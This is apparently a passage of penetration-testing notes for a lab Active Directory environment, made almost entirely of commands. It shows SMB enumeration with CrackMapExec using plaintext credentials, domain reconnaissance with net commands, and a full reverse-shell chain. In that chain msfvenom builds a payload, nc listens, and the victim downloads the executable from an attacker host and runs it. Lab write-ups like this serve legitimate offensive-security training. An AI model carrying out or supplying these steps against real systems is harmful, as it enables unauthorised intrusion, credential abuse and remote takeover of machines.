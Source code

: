 - **Enumeration with CrackMapExec (CME)**:
  CME automates security assessment of large Active Directory networks.
  ```bash
  # Clone and install CME
  git clone https://github.com/byt3bl33d3r/CrackMapExec
  cd cme
  poetry install

  # Run SMB enumerations
  proxychains poetry run cme smb 192.168.98.30 -u employee -p 'password'
  proxychains poetry run cme smb 192.168.98.2 -u employee -p 'password'
  ```

- **Internal Reconnaissance Commands (Post-Access)**:
  Once a shell is obtained on an internal machine.
  ```bash
  whoami
  net user /dom
  net group /dom
  ping cdc.child.warfare.corp
  ```

- **Creating a Reverse Shell**:
  Generate a payload with `msfvenom`, host it, and execute it on the target.
  ```bash
  # Generate payload (attacker)
  msfvenom --platform windows -p windows/shell_reverse_tcp LHOST=10.10.200.2 LPORT=9990 -f exe -o rev.exe

  # Start a listener (attacker)
  nc -nvlp 9990

  # Download and execute the payload (victim)
  iwr http://10.10.200.2:8000/rev.exe -OutFile C:\Users\john\Downloads\rev.exe
  C:\Users\john\Downloads\rev.exe
  ```

- **Additional Active Directory Enumeration**:
  ```bash
  net user john /dom
  net user corphead /dom
  net localgroup Administrators
  ```

